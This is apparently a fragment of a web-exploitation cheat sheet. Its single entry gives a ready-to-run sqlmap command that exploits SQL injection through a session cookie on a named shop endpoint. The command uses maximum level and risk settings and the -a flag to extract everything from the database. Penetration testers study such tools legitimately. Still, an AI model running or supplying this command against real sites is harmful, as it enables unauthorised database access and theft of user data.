 ### Various Web Exploits

# Give an example of a sqlmap query to exploit SQLi on cookies:
```
sqlmap -u http://shop.wey-tech.com/account_api.php --cookie="session=c2deb0aa8a22efd8c8f74c3db021d6e9" --data='accountinfo=accountinfo' --threads 2 -p "cookie" --ignore-code 401 --level 5 --risk 3 --dbms=mysql -a
```
